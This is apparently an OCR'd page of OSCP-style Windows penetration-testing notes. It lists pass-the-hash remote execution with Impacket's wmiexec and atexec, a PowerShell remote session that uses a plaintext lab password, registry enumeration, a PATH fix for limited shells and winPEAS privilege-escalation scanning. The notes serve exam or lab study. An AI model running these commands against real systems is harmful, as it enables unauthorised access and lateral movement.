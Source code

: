 ```javascript

wmiexec.py <domain>/<user>:<password1>@<IP>

wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
#we passed full hash here
```

### PSSession
```powershell
$pass = ConvertTo-SecureString 'Freedom1' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('oscp.exam\support', $pass)

Enter-PSSession -computer 192.168.159.153 -Credential $cred
```


### Installed Applications x64 and x86
```powershell
x86
PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

x64
PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

## Windows Path Setting

Sometims when you enter `whoami` command then it is not recognized by the Windows!!

```powershell
C:\Users\Public> whoami

Error: 'whoami' is not recognized as an internal or external command operable program or batch file.

```

#### Solution:

```powershell
C:\Users\Public> set PATH=%PATH%;C:\windows\system32;C:\windows;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\;C:\windows\System32\OpenSSH\;C:\Program Files\dotnet\
```


### Insecure Service Permissions
```powershell
> .\winPEASany.exe quiet servicesinfo
```
Example:
Just ran the Winpeas !!
